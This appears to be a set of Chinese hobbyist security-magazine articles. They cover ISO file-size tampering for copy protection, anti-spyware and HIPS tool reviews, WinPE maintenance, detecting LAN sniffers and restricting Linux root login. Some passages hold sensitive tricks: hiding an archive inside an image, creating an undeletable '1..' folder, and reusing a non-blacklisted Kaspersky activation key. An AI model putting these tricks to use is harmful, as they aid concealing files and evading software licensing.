在这个时代，资源的保护无疑也是一个重头戏。为了保护资源，各式各样的方法如雨后春笋般层出不穷，相应的破解也应运而生。今天我就给大家讲解一种另类的方法，纯手工就能保护自己的光盘资源不被复制，而不需要去购买什么光盘加密狗之类的收费软件，也不需要痛苦地学习修改光盘的数据轨道，最主要的是无法被破解（除非汇编 Windows）。废话不多说了，下面就听我慢慢道来。

我先说一下光盘镜像中记录文件长度信息的机制，光盘镜像中的文件信息是如何被存储和读取的，又是记录在哪里的。让我们仔细看看图1。


| 字节 | 功能 |
|---|---|
| 01 | 目录长度 |
| 02 | 延伸属性 |
| 03-10 | 文件长度位置 |
| 11-18 | 文件大小 |
| 19-25 | 文件创建日期和时间 |
| 26 | 文件属性 |
| 27 | 文件单位大小 |
| 28 | 文件交错间隔大小 |
| 29-32 | 卷册顺序编号 |
| 33 | 文件名长度 |

首先把一个文件做成 ISO 镜像，我使用的工具是 WinISO，封装的文件是一个 wav 波形文件，当然你也可以使用其他类型的文件（图2）。

现在使用十六进制编辑器 Hedit，打开这个 ISO 文件并搜索字符串 WINDOWS.WAV，这个就是封装的文件了。查找到了这个字符串在 000000A854 到 000000A869（图3），WINDOWS.WAV 对应的十六进制表示是 57 49 4E 44 4F 57 53 2E 57 41 56。现在看到 57 前面的那个字节了吗？是 0D，这个字节就是第 33 个字节了，存储的是 WINDOWS.WAV 的文件名长度（将 0D 转换成 10 进制就是 11）。


向下拉动滚动条，在 000000B05E 到 000000B073 可以看到有个 W.I.N.D.O.W.S.w.a.v（图4），它对应的十六进制表示是 57 00 49 00 4E 00 44 00 4F 00 57 00 53 00 2E 00 77 00 61 00 76，这次是 WINDOWS.wav 的宽字符形式；前面的那个是窄字符形式。回到前面的 WINDOWS.WAV，在第 33 字节上往前数，一直数到 11-18 字节，可以看到是 AC 11 2C 00 00 2C 11 AC，这就是 WINDOWS.WAV 的文件大小信息所在（图5）。

而 AC 11 2C 00 00 2C 11 AC 是由两个 4 个字节组合而成的，前 4 个字节是按从低到高反方向排列的，这 2 段 4 字节成对称分布。实际上，我们的文件 WINDOWS.WAV 的打开是十六进制表示下的 2C11AC。为了验证一下是否正确，我将其转换为十进制，结果是 2888108，然后与源文件大小进行了对比（图6）。注意，大小的单位是字节（byte）。接下来，就要修改这个 ISO 文件中存储的文件大小信息来欺骗 Windows 资源管理器……


好了，来保存一下。本来的 ISO 是 BIWEILUN.ISO，这个就取名 BIWEILUN1.ISO，我把 BIWEILUN1.ISO 刻录成光盘……资源管理器却显示无法复制了（图8）。

就这样，我们顺利伪装骗了 Windows 资源管理器。光盘给资源管理器提供了一个虚假的信息，文件大小远大于光盘容量，所以复制被拒绝，但是光盘里的文件运行却不受影响。

（本文所涉及到的 WinISO 和 Hedit 已收录到光盘中）


## 假进程“玩”死天龙八部盗号病毒

XiaoYY[无组织]

最近看到病毒线报中有个“天龙八部 Pro 变种和盗号病毒”，因为我就玩天龙，而且还是个“RMB 玩家”，这要是被盗了可就损失惨重……

技术含量的病毒怎能被“名字”搞定呢？但我却没有放弃改名杀毒的这条思路，我决定制作一个假进程……

### 一、了解病毒

因为我没有病毒样本，所以不能在本机测试，不过得知该病毒可限制防火墙工作……并且木马成功运行后会在 system32 目录下释放并插入进程，窃取玩家账号密码资料等。

### 二、分析对策

因为该病毒替换了系统中的一个文件，而要把它更换回来必须要用安装盘恢复……关键在于病毒最后要插入 bin\game.cxc 进程中，这就使人想到了改变 game.exe 的名字。


### 三、作战开始

首先把 bin\ 目录下的 game.exe 名字改为 xiaoyy.exe，然后用 WinRAR 制作自解压文件并设置解压后运行 xiaoyy.exe，最后把文件名改回 game.exe……这样病毒就无法插入到客户端了。


### 四、总结

以后要多想想病毒的工作原理，网吧是一个必须“防”毒的地方……另外我也希望大家多用用 RAR，它有好多奥秘呢。

## 间谍软件克星——HiJackFree

HFlay


在网络日益普及的今天，各种间谍软件也在以惊人的速度更新着。俗话说得好，“常在河边走，哪有不湿鞋”，对于经常上网的朋友来说，电脑难免会中个病毒、木马或是间谍软件什么的。要是真中了间谍软件，我们就得有一个好用的辅助工具来彻底清除它们。

常见的反间谍软件有冰刃、微点主动防御等，不过今天我要带大家认识一款更加强大的反间谍工具——HiJackFree。打开 HiJackFree，其主界面如图1所示，够人性化吧。从界面中我们可以看到 HiJackFree 有查看进程、端口、自动运行和服务管理等功能。

先来看“进程”，在这里除了同类软件都有的管理进程和加载模块外，还增加了进程过滤、显示进程细节这两个功能。在进程过滤中有“过滤被微软信任的文件”“过滤所有可疑文件”和“过滤所有签名的文件”。在进程细节中我们可以知道该进程是否为服务、是否自动运行和是否打开 TCP/UDP 端口等详细信息，如图2。


在“端口”选项中我们可以知道系统中打开的端口和打开端口文件的详细信息，和上面一样，这里同样也有一个过滤功能，如图3。

“自动运行”可以说是 HiJackFree 的功能中比较强大的一项了。它能够浏览和设置所有的自动运行程序，显示超过 50 种不同位置的自动运行程序和当前用户或所有用户默认的注册表启动程序。HiJackFree 也支持显示类似 Win.ini、System.ini、Autoexec.bat 和 Config.sys 类型的文件。在“复杂的启动”这一小项中我们看到的那些启动的地方，相信在间谍软件中都是很少见到的吧，如图4。借用软件介绍里的话来说，这款软件对于启动项目的检测，几乎涵盖了 Autoruns 这款 Sysinternals 出品的启动项目管理工具的所有功能，并且 HiJackFree 特有的过滤功能还可帮助我们过滤所有加载项的安全性，更有利于对间谍程序、恶意软件的手动清理。


下面看“服务”管理项，这里除了系统服务管理外，还包括了所有以服务形式加载的启动项管理。选中启动项后，点鼠标右键，在弹出的菜单里可以卸载服务和安装新的服务。同样，软件还提供了服务的详细信息作为大家的参考，如图5。

HiJackFree 的“其他”选项里包括了浏览器加载项管理、LSP 协议管理、Host 文件管理和 ActiveX 管理。其中浏览器加载项管理中还有 IE 工具栏、外壳扩展、外壳钩子、BHOs 和 ActiveX 项目。其中 IE 工具栏、BHOs、ActiveX 和同类软件的功能都差不多，可以直接清理掉你不需要的 IE 插件。外壳扩展和外壳钩子这两个功能可是同类软件中很难见到的，个人认为外壳扩展这个功能比较实用，可以看到的浏览器加载项很多，而且里面有很多都是在 BHOs 和 ActiveX 里面看不到的。当然了，间谍软件和恶意软件的加载项在这里也会暴露无遗，通过右键菜单可以直接对其进行清理，如图6、图7。

Host 文件相信各位读者都知道吧，我们可以利用 Hosts 重新设置本地网络服务器名称来消除主页内的 ADS。另外一个特征就是蠕虫病毒可以利用 Hosts 文件改变杀毒软件对网络的请求，以此避免被清除。Host 文件管理可以直接对 Host 文件进行编辑，如图8。

现在轮到 ActiveX 管理了。大家可能都碰到过这种情况：在浏览某网站时，上面的信息栏弹出提示说需要安装 XX ActiveX 控件。如果你不注意的话，恶意的 ActiveX 对象就会在你的电脑里安家落户了。那么如何清理掉它们呢？HiJackFree 的 ActiveX 管理项可以帮助我们分析这些 ActiveX 对象，右键菜单可以直接卸载和安装 ActiveX 对象，如图9。


图6


图8


图7


图9

LSP 界面中可以显示所有 LSP 类型的网络驱动安装，一些木马或间谍软件会利用 LSP 寄存在内存中，从而影响所有的网络行为，甚至令你的网络瘫痪。我们通过 LSP 协议管理清除掉这些恶意程序，并且软件本身也提供了过滤功能，大大方便了不熟悉的用户进行清理。

在木马病毒日益猖獗的今天，HiJackFree 的强大功能是否能让你的眼前一亮呢？其实 HiJackFree 的功能还有很多，这里就不一一介绍了，留着给大家自己发掘吧。还等什么，让我们一起去体验这款功能强大又免费的间谍软件克星吧！

（本文所涉及到的 a-squared HiJackFree 已收录到光盘中）

## 维护系统我用 Windows PE

chenggong


对于经常玩木马、病毒的朋友来说，系统中毒和崩溃是在所难免的。由于病毒的顽固性和隐蔽性，有时使用杀毒软件无法彻底清除也是常有的事，此时大部分朋友的选择是重新安装系统。有的病毒不仅感染系统盘，而且还感染非系统盘，即使重装系统也不能彻底清除。这时只好在 DOS 下进行杀毒，但这样不仅慢而且杀毒效果也不好。我今天要给大家介绍的就是 Windows PE 这个很好用的软件。在 Windows PE 下不仅可以杀毒，而且当系统崩溃无法进入 Windows 时，还可以在 Windows PE 中打开硬盘系统中的注册表文件和系统文件来修复硬盘中的 Windows 系统，厉害吧！使用 Windows PE 杀毒和在 Windows XP 中一样方便快捷。由于 Windows PE 是一个完全脱离了 Windows XP 系统的另外系统，因此无论是杀毒还是删除木马，都比在 Windows 下的效果要好得多。

什么是 Windows PE 呢？Windows PE 是微软在 2002 年发布的一个只拥有最少核心服务的 Mini Windows XP 操作系统，用来给管理员维护系统用的。原本它只能在光盘上运行，经过牛人们改造后的 PE 可直接安装在硬盘上，它的启动运行速度以及功能可以和硬盘上的 XP 系统相媲美。由于 PE 运行时是利用内存虚拟出来的磁盘，因此小于 128M 内存的计算机最好不要安装 PE。网上的 PE 有很多版本，个人认为最好用的就是“老九 WinPE 老毛桃修改之撒手不管版（Build 070911）”版。

首先从网上下载“老九 WinPE 老毛桃修改之撒手不管版（Build 070911）”，文件名为“BootCD_070911.ISO”。这是一个虚拟光驱文件，可以使用“DAEMON Tools”之类的虚拟光驱软件加载，或使用 RAR 将它解压，然后运行 SETUP 目录中的 PESETUP.EXE 来安装 WinPE。根据你的情况来选择安装方式，我选择的是 1，几分钟复制文件就完成了（图1）。重新启动系统后就可以看到启动菜单，选择“winpe by: 老毛桃”就可以进入 WinPE 了。


由于大部分朋友对 WinPE 并不熟悉，因此我先简单介绍一下 WinPE 的结构。PE 分为两部分，一部分是内核，另一部分是外置程序。对于内核不建议进行修改，外置程序则可以根据需要随意修改。WinPE 启动后利用内存虚拟出两个磁盘，B 盘就是外置程序，X 盘是系统盘。

先来看看 WinPE 的杀毒软件。老毛桃修改版 WinPE 内置卡巴斯基 6.0。由于下载使用的网友实在是太多了，因此内置的卡巴根本无法升级病毒库。大家都知道病毒木马升级很快，如果杀毒软件不能升级，杀毒效果就会大大减弱。作为一个菜鸟，这是不能容忍的，因此必须想办法升级病毒库。


先不要启动 WinPE，因为我们下载的 WinPE 在有些地方并不令人满意，因此需要在 Windows XP 中进行一番修改才能启动 WinPE。在老毛桃版 WinPE 中外置程序包文件名为 OP.WIM，OP.WIM 里的文件就是 WinPE 启动后 B 盘的文件。将它复制出来后便可以使用“WimTool”软件来对它进行一些操作。

“WimTool”启动后的界面如图2所示。在“选择要挂载或解开的 Wim 文件”文本框右侧单击“浏览”，选择我们需要修改的外置程序包 OP.WIM；在“选择要挂载或解开的文件夹”文本框右侧单击“浏览”，选择一个挂载或解开 OP.WIM 的目标文件夹。一定要选中“可写方式挂载”，否则是无法修改外置程序里面的文件的。单击“挂载映像”，“WimTool”会自动打开目标文件夹，就可以看到 WinPE 启动后 B 盘的所有文件了，如图3。

有两种解决的方法：第一种是找一个没加入黑名单的可用的卡巴斯基 6.0 激活码，将内置的卡巴激活；另一种方法就是将内置的卡巴斯基 6.0 换成卡巴 7.0。打开挂载后外置程序文件夹，AVP6 目录下的 AVP.7Z 文件就是卡巴斯基的所有文件。使用新版 RAR 或 7Z 解压 AVP.7Z 文件，文件解压后找到 set.reg 文件，右键“编辑”，找到 [HKEY_LOCAL_MACHINE\SOFTWARE\KasperskyLab\LicStorage]，如图4。


下面的那些数字和字母就是卡巴 6.0 的 key，将你的可升级 key 复制过来替换它，然后使用 7Z 压缩后再放置到外置程序中就可以了。

如果你没有可用的卡巴 6.0 key，建议更换为卡巴 7.0，因为 7.0 不论是占用资源还是杀毒效率都有了很大的提高。更换的方法也很简单，下载一个绿色版的卡巴 7.0，使用 7Z 打包就可以了。修改完成后回到 WimTool 界面，单击“卸载映像”，在弹出的对话框中一定要选择“是”，修改后的 OP.WIM 便保存完毕。但由于我们编辑 OP.WIM 时，OP.WIM 并不能实时将空间释放，新的 OP.WIM 的大小将会比修改前大，最好再重新处理一下 OP.WIM。

## 安全第一

选择要导入卷的 Wim 源文件栏右边的“浏览”按钮，选择我们刚才编辑并保存过的 OP.WIM；点击“选择要导入卷的 Wim 目标文件”栏右边的“浏览”按钮，将它导出为一个新的文件 LOP.WIM，单击“导出映像卷”，完成后将 LOP.WIM 改名为 OP.WIM，覆盖原来的 OP.WIM 即可（图5）。


除了使用卡巴斯基查杀病毒外，另一个最常用的软件就是 QQ 了。老毛桃 WinPE 也内置了 QQ2004，不过这次版本也太低了，但同样也可以使用新版本的绿色版 QQ 来替换外置程序的 MINIQQ 目录下的 QQ2004.7Z，以达到升级的目的。对于很多老主板，WinPE 老毛桃修改版并不能识别显卡，使用老电脑的用户总不至于要让他们在 4 位色彩下工作吧！解决的办法就是将你电脑 Windows 系统中的显卡驱动程序提取出来，利用上面的方法添加到外置程序中。

具体的就是替换外置程序 PE_OUTERPART 文件夹下的 DRIVERS_VGA.CAB 文件；它就是内置的所有显卡驱动程序。将我们电脑中的显卡驱动程序使用驱动精灵提取出来，利用 XCAB（一个压缩软件）压缩成 CAB 文件，将其命名为 DRIVERS_VGA.CAB，覆盖外置程序中的同名文件就可以了。启动 WinPE 后在“显示属性”中进行一些必要的手动设置。

所有这些都设置完毕后，启动 WinPE，我们可以看到其界面和 Windows 一般无二（图6）。运行桌面上的“启用网络支持”和“启用声音”，如果是局域网用户，进行简单的设置后就可以直接上网了。对于使用 ADSL 拨号上网的用户，可以双击桌面上的“宽带连接”，输入用户名和密码后就可以上网了。


打开 WinPE 的开始菜单看看，感觉和 XP 基本一样，程序和控制面板等都有。在开始菜单中找到卡巴斯基，你可以选择在哪个盘运行。如果你的内存不太大，最好不要选择在 X 盘运行，因为这是利用内存虚拟的，运行程序太多的话会造成死机。我选择在 C 盘运行，程序会自动将卡巴释放到 C 盘，这样也方便更新病毒库，然后就可以启动卡巴斯基对硬盘中的 Windows XP 进行杀毒了。

在开始菜单中选择“Windows 系统维护”→“Windows 系统还原”，就可以启动 Windows 的系统还原功能，选择一个还原点后就可以恢复已经崩溃的 Windows 系统了。大家都知道在一个系统中修改另外系统的注册表是很难的，但在 WinPE 中就可以很容易实现。在开始菜单中选择“Windows 系统维护”→“Windows 注册表编辑器”，这时会询问你“是否希望载入远程 Windows 用户注册表配置单元？”，当然点“是”。在出现的对话框中勾选“自动载入所有的用户注册表配置单元”，确定后就可载入硬盘 Windows XP 系统中的注册表了（图7）。


我们会发现这种 Windows XP 中的注册表结构似乎不一样，可是打开后并没看到 XP 的注册表。事实上 HKEY_USERS 主键下面的 Administrator_ON_C、LocalService_ON_C 和 NetworkService_ON_C 这三个子键就是三个内置用户的个人设置注册表信息，其他 Windows 的注册表信息都集成到了 WinPE 注册表中。不信的话我们打开仔细看看，硬盘中 Windows XP 系统的所有注册表信息都可以找到，不过只是注册表结构变了。在这里可以查找、编辑、删除注册表，但并没有备份注册表等功能。如果你的注册表没有备份的话千万不要修改注册表，万一修改、删除错了，你的系统就真的崩溃了。

WinPE 不仅可以维护系统而且还可以安装系统，并且不用刻录光盘。方法是将你从网上下载的 GHOST 版系统，利用 WinPE 自带的虚拟光驱软件虚拟后直接安装；或是使用 Ghostexp.exe（WinPE 程序中有）在 WinPE 中直接打开 GHOST 版中的 .GHO 文件，直接提取到 C 盘根目录覆盖原来的所有文件就可以了。这种方法比较安全，但是由于没有格式化 C 盘，垃圾清除不干净。建议安装系统前在 WinPE 中将你的 C 盘格式化（虽然你的 WinPE 安装在 C 盘，但是启动后所有系统文件都加载到内存中了，所以可以格式化 C 盘）再安装。

WinPE 的功能确实强大，其他更多的功能就请读者们去慢慢体验吧！事实上 WinPE 不仅可以维护系统，还完全可以当作一个安全的系统来使用。由于它的内核是工作在内存虚拟出的盘里面，因此不用担心我们的系统会中病毒；一旦中毒，重启后一个全新的 WinPE 就回来了。强烈推荐硬盘较小、内存较大的用户使用（256M 就可以了）。你只要有 5G 到 10G 的硬盘，你的 WinPE 系统就可以很好地工作；如果硬盘空间实在不够的话，甚至可以仅保留 WinPE 目录和根目录文件，将原来的所有系统文件删除掉都可以。由于 WinPE 的功能实在太多，不能一一介绍了，有兴趣的朋友可以到 X 档案的论坛来一起讨论吧！

## 菜鸟DIY保护自己的秘密文件

EchoEve

相信不少“叉子”都有 U 盘吧，不知各位是否担心过自己的 U 盘在借给别人后，自己的信息或者秘密被别人知晓。可能会有人说我们可以使用一些加密工具，可看着高手们一招又一招地把那些加密工具斩落马下，不得不让我等小菜更加担心自己的信息安全。如果各位有这样的苦恼，那就跟我来吧！

### 第一步

我们在看一些电影时，经常会看到这样的情节：一个很重要的东西被分割成 N 块，然后让男女主角去寻找，在历经千辛万苦后，把所找到的东西拼到一起才会有它的用途。那我们的文件能不能也如此呢？如果我们把它分割成 N 块，别人还能认出来吗？

这里我用到的文件分割工具是“天亿文件分割合并器”，它支持各种格式的文件分割，纯傻瓜方式安装。安装完成后双击运行，点击“选择文件”，要注意在“文件类型”处选择“所有文件”，如图1。

然后选择你要分割的文件，接着点击“保存位置”，选择你所要保存的地方，最后在“设置分割单位”选择需要分割成的单份文件大小，可以根据大家所要分割文件的大小进行选择。设置完成后点击“分割文件”，很快便分割完成，这时会在你选择的保存位置那里出现几个 spt 后缀的文件，如图2。


图1


图2

这就是分割后的文件，现在别人还知道它们原来是什么类型的文件吗？也许有人会说，如果我们在进行合并还原的时候还必须要使用这个工具进行合并，那岂不是又要在别人的电脑上再次安装这个工具吗？其实完全没有必要。打开“运行”栏输入 CMD，接着进入被分割成的 spt 后缀文件所处的文件夹，输入以下命令即可合并：

```bash
copy /b 1.spt+2.spt+3.spt 3.txt
```

注意这里 `/b` 参数不能省略，“1.spt+2.spt+3.spt”是所分割成的文件名，“3.txt”是要合并成的文件名，注意后缀要和被分割的文件后缀一样。这样也就使得不知道文件原后缀的人无法合并文件。这时我们就能发现，被分割的文件已经被成功合并了。

### 第二步

现在我们要给分割成的文件加个密码。我使用的是几乎每人都会用的压缩工具——WinRAR。选中我们分割成的文件，点击鼠标右键，再选择“添加压缩文件”，接着选择“高级”，再点击“设置密码”。这里先不填写密码，选择“显示密码”，我们便可以在里面输入汉字密码了，如图3。最后点击确定就压缩成功了，解压缩会提示输入密码。由于不能直接输入汉字，需要先在“记事本”或者可以输入汉字的地方把密码打出来，然后粘贴进去，就可以安全解压缩了。


图3

### 第三步

现在我们已经加上了足够强壮的密码，但当别人使用你的 U 盘，发现里面有个压缩文件的话，他们看见了还是会好奇，会追问你里面放的是什么东西，那不很烦人吗？不要紧，我们接着来。

这里要用到的工具是“UltraEdit”，安装完成后运行它。然后点击“文件”，选择“打开”，再选择我们做好的压缩文件，这时会以十六进制显示文件。点击“编辑”，选择“全选”，接着选择“复制”。

现在开始伪装吧。在 UltraEdit 中选择“文件”→“打开”，选择任意一个图片文件。打开后，我们把光标放到最后一行的最后一个没有字符的位置，如图4。选择“编辑”，接着“粘贴”，把我们的加密文件内容添加到图片文件后面，最后点击“保存文件”按钮，就完成了。


图4

我们可以发现，图片的大小发生了变化，但双击打开修改过的图片，却可以正常显示图片，表面上和普通的图片没什么分别。那我们的压缩文件去哪儿了呢？不用急，在图片上点鼠标右键，在“打开方式”处选择“WinRAR 压缩文件管理器”，如图5。这样就看到了我们的压缩文件了，只要输入密码，解压缩就可以正常使用了。


图5


图6

### 第四步

经过前面几步，文件已经得到了很好的保护和伪装，但如果被别人误删了我们的文件呢？进行最后一步，更好地保护我们的文件不会被他人轻易删除！

首先在 U 盘里建立个名字为“autorun.inf”的文件夹。接着进入 CMD 模式下，切换到 U 盘下的“autorun.inf”文件夹，然后输入：

```bash
md 1..\
```

此时会发现 autorun.inf 文件夹中会多出一个“1..”的文件夹，这个文件夹是无法被访问和删除的，如图6。

我们把修改过的图片文件存放在“autorun.inf”文件夹中，接着在 CMD 中输入：

```bash
copy 1.jpg 1..\2.jpg
```

其中 1.jpg 是图片名字，2.jpg 是复制到文件夹中的名字，这个名字自己不能够忘记哦！此时我们的图片就已经成功复制到了“1..”这个文件夹中。最后删除“autorun.inf”文件夹中的“1.jpg”即可。

再次在 CMD 中进入“autorun.inf”文件夹，输入：

```bash
copy 1..\2.jpg c:\1.jpg
```

这样就成功把 2.jpg 这个文件复制到了 C 盘中，名字为 1.jpg。到此我们的保护计划就全部完成了！

其实如果我们想保护自己的文件，也许用不着把上面的所有步骤都做一遍。比如选择的是多个文件时，就可以跳过第一步。或者你所要保护的是硬盘上的文件，那同样也可以使用上面的方法。

## 局域网的安全嗅探专家 PromqryUI

目前局域网中的 ARP 攻击非常泛滥，如果你是在网吧、公司局域网或校园局域网上网的话就要注意了。你身边的人根本不用任何木马或远程控制软件就能够对你进行监视，任何人使用 ARP 攻击程序就可以窃取局域网内任一台电脑的信息。为了保证局域网安全，推荐各位小菜使用 PromqryUI 揪出网络中的窃听者！


图1


图2


图3


图4

### 一、什么是网络窃听？

网络窃听也叫网络嗅探（sniff），适用于局域网，目的是得到其他主机传输的网络数据。可能会有小菜说：我的电脑里没有中木马和病毒，别人怎么能监视我呢？其实不然，因为窃听者与你在网吧、公司或校园的电脑是相连的，只要对方在其电脑上运行 ARP 攻击软件（例如网络执法官、网络剪刀手、局域网终结者等）就能监视你。

因为在没有 ARP 欺骗前，局域网中数据的流向是“网关<>本机”；而运行 ARP 攻击软件实施 ARP 欺骗后，数据流向就变成了“网关<>攻击者（‘网管’）<>本机”，因此攻击者就能随意窃听网络数据，截获局域网中任一台电脑收发的邮件、Web 浏览信息等。


图6

### 二、PromqryUI 能干什么？

PromqryUI 是微软发布的一款免费软件，它可以帮助我们检查本机或某段 IP 内网络传输、接收的状况，查出哪块网卡现在正处于混杂模式下，从而发现本机或某段 IP 内是否有网络窃听程序、是否已被窃听。网卡一旦处于混杂模式下就会发出警告，提醒你有人可能正在运行窃听程序，此时你就要加以防范了，例如安装防护软件 ARP 防火墙或及时进行操作系统更新等。


图5

### 三、运行 PromqryUI 检查某 IP 是否被窃听

要想安装 PromqryUI，需要首先安装 .NET Framework 1.1.4322 版本。安装完毕后运行 PromqryUI，在软件主窗口中点击左下角的“Add”按钮，在弹出的“Select Addition Type”对话框中点击“Add Single Systems”，接下来在“Add System to Query”对话框中输入你要检查的那台电脑的 IP 地址（例如 10.0.0.1），点击“Save”按钮，软件就开始反窃听侦测了。如果你想检查本机是否被窃听，可以在软件主窗口中点击菜单“File”→“Query Local System”即可。

### 四、检查某 IP 段是否被窃听

检查某 IP 段是否被窃听的方法如下：运行 PromqryUI，点击“Add”，选择“Select Addition Type”对话框中的“Add Multiple Systems”，在弹出的窗口中输入要检查的 IP 段起止 IP 地址（例如 192.168.1.1－192.168.1.255），然后按“Save”按钮，于是准备检查的网段就会出现在“Systems To Query”清单中。勾选网段前面的复选框，点击右下方的“Start Query”按钮，软件就开始反窃听侦测了。一旦 PromqryUI 发现局域网中某网卡处于混杂模式下，就会在检测结果中显示出来。

## 让 DefenseWall 把我们的系统变安全

陈金波


对于普通用户而言，多数 HIPS 复杂的规则设置和频繁的弹出窗口让他们望而却步，那有没有什么更为聪明的 HIPS 软件呢？DefenseWall 就是一款相当人性化的 HIPS，它无需升级特征库，使用者并不需要具有任何特定知识或频繁点击验证窗口，就能够最大限度地防范各类恶意软件（包括病毒、木马、广告间谍以及 Rootkits）的侵袭。

> ### 小知识：什么是 HIPS？
> HIPS 英文全称 Host Intrusion Prevent System，也就是主机入侵防御系统。HIPS 是一种能够监控你电脑中文件的运行、文件对其他文件的调用以及对注册表的修改，并向你报告请求允许动作的软件。它并不能作为防火墙，更多是系统层面的主动防护机制。


### 一、阻击“禽兽”病毒

DefenseWall 最大的特点就是简单易用，软件安装后就可以使用了（图1）。本文我们以“禽兽”病毒为例来测试一下 DefenseWall 防护的实际效果。如果没有安装任何安全工具，“禽兽”病毒激活时会在 `%SystemRoot%\System32` 目录下释放 Autorun.inf 和 Crsss.exe 病毒文件，并在各磁盘分区的根目录下生成 Autorun.inf 和 Niu.exe，其中 Autorun.inf 所指向的病毒是 Niu.exe。当用户双击打开磁盘分区时，病毒趁机触发。

同时，病毒还会调用 Reg.exe 修改注册表，添加自启动项，禁用任务管理器，破坏安全模式，禁用 Windows 自动更新，锁定 IE 浏览器主页设置等，劫持项目来指向 `%SystemRoot%\System32\Crsss.exe`，致使包括 360 安全卫士、卡巴斯基、瑞星等众多安全软件以及 Regedit、Msconfig 等系统工具无法使用。


DefenseWall 开启之后，通过 IE 激活“禽兽”病毒（病毒应继承 IE 非信任属性），然后借助安装监视工具对比原始记录，可以发现：`%SystemRoot%\System32\Autorun.inf` 被拦截，各磁盘分区根目录下没有生成 `Autorun.inf` 和 `Niu.exe` 文件；另外病毒修改注册表的行为，包括 IFEO 映像劫持、禁用任务管理器、破坏隐藏文件显示等也均被 DefenseWall 所阻止了。


双击托盘区的 DefenseWall 图标，打开“Events Log”项，从显示的记录可以清楚地看到拦截的病毒动作（图2）。其中“Attempt to create new file `%systemroot%\system32\Autorun.inf`”拦截生成 Autorun.inf 文件；“Attempt to create new key `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\xxx.exe`”拦截注册表映像劫持项目。

在 DefenseWall 主窗口的“Stop attack”项中点击“File and Registry Tracks”，打开 Rollback 窗口，在这里可以直接删除病毒生成的文件。由于 DefenseWall 的拦截，“禽兽”病毒仅生成了一个 Crsss.exe 文件并且还被作为不信任程序运行，我们直接将其删除即可（图3）。


### 二、限制非信任程序

DefenseWall 实际上是一类基于沙盘原理的 HIPS 系统，它将程序分为 Trusted（信任的）和 Untrusted（非信任的）。非信任程序运行在一个虚拟空间，但是并没有互相隔离，只是与系统中的信任空间隔离开，其权限受到一定限制。DefenseWall 不会监控信任程序，也就是说只有在非信任区的程序才会被监控。

与根据现有系统虚拟一个环境让指定程序运行在其中而实现隔离的 Sandboxie 不同，DefenseWall 没有虚拟文件系统/容器的概念。DefenseWall 放行的文件操作都是在真实的文件系统中，不会只在一个指定的文件夹里。软件作者认为大量使用虚拟技术不能带来最大的安全，因此在设计 DefenseWall 时放弃了虚拟化，只在注册表保护上使用了极少的虚拟技术。缺省设置时，DefenseWall 运行于常规模式（如果要启用专家模式，可以右键单击系统托盘的 DefenseWall 图标，选择“Expert Mode”）。


打开 DefenseWall 主窗口的“Untrusted Applications”项，会看到程序已经内置了少许常用软件作为非信任程序，例如 IE、MSN、OE 等等（图4）。注意，凡是添加到非信任区的程序，所调用的程序和生成的可执行文件都会自动继承非信任属性。

对于未知风险的程序，可以直接使用鼠标右键单击该程序文件，然后从菜单中选择“DefenseWall HIPS -> Add to untrusted”将其添加为非信任程序，或者直接选择“Run as untrusted”以不信任程序运行。在安装某些软件时，可能会由于 DefenseWall 的保护出现安装错误的情况，这时需要执行“Run as trusted”，让安装程序临时以信任状态运行（图5）。


DefenseWall 可以防止非信任程序修改可执行文件、进程间通信、多媒体、文档、HOST 文件、增加或修改自动项（包括注册表和文件）、增加或修改驱动和服务（针对 Rootkits）、修改桌面和浏览器设置、插件和扩展、全局钩子（通常被用于键盘记录）、注入信任进程、屏蔽截取和其他许多危险动作。

那么，哪些程序和目录应该加入非信任区呢？从理论上讲，所有可能被病毒利用的途径都应该添加到非信任区。目前流行病毒的传播主要是通过网络和可移动设备，可移动设备默认就在非信任区；而对于那些连接网络的应用程序，除了特殊情况外最好全部加入到非信任区，这样才能从源头上保护系统安全。

有一点应提醒大家，DefenseWall 启用时，可能会导致某些软件的截图功能无法正常使用。这时可以右键单击托盘图标，选择“Disable Protection”暂停 DefenseWall 保护，或是将该软件作为信任程序运行。

### 三、玩转 DefenseWall

DefenseWall 不需要设置也可以使用，但如果要想更好地使用这个软件，则必须根据实际情况进行一些定制。打开“Advanced”项，这里有五个按钮，其中“Options”用于设置热键和软件的一些常规选项，例如允许托盘图标显示警告通知（图6）。至于那些不希望被非信任程序所访问的文件可以添加到……“Secured Files”，而“Download Areas”则需要根据计算机中已安装的软件进行添加，例如快车、迅雷等指定的下载目录，QQ 接收文件的目录等。

在多数情况下，DefenseWall 拦截过程没有任何提示窗口，但也有例外，例如拦截高级键盘记录程序 AKLT。当通过 AKLT 的 GetKeyState、GetAsyncKeyState 或 DirectX 记录键盘动作时，DefenseWall 就会弹出提示窗口。

除了能够拦截一般的病毒动作之外，DefenseWall 还能拦截隐藏的 NTFS 数据流病毒，以及许多 HIPS 难以防范的 Unhookers。

最后要提醒读者的是，DefenseWall 主要是根据行为来识别风险，但它并不能判断下载的文件是否包含病毒，并且它也不具备网络过滤功能。因此，用户最好是配合杀毒软件和防火墙一起使用，这样才能实现更好的安全防护。

## Linux 安全点滴——我让 ROOT 也下岗

evilangel


对于网络服务器而言，Linux 是使用非常普及的一款操作系统，它完全继承了 UNIX 系统的安全、稳定、高效等优点。在 Linux 系统中权限最高的就是 root 用户，该权限用户拥有对计算机的完全控制权——你无法对 root 隐藏任何东西，计算机也绝不会和 root 说 NO。也因此，黑客们入侵服务器的最终目标就是获取 root 权限。当然，从安全的角度上来讲，我们的目标就是要限制 root 的特权，尽量减少 root 用户的管理次数，这样在某些方面也就加强了系统的综合安全性。

### 一、实战环境

我们这次的主角是 Red Hat Enterprise Linux 系统，它是 RedHat 公司推出的商业版本，在商务活动中使用需要购买版权，当然如果你是个人用户的话可以免费使用。

### 二、拒绝 root 用户直接远程登录

SSH 是 UNIX 系统中用于远程维护管理系统的一个服务。在 RHEL 系统中，默认是允许 root 用户直接远程登录系统的，也就是说倘若能够得到 root 的密码，就能够直接远程登录进入系统，这显然是一个安全隐患。我们需要给入侵者增加一层障碍。

#### 方法一：从 SSH 服务下手

找到 `/etc/ssh/sshd_config` 文件，在其中添加 `PermitRootLogin no`，保存退出后重启 SSHD 服务 `service sshd restart`，使服务器读取配置文件。

#### 方法二：使用 PAM 认证模块来拒绝 root 用户的直接登录

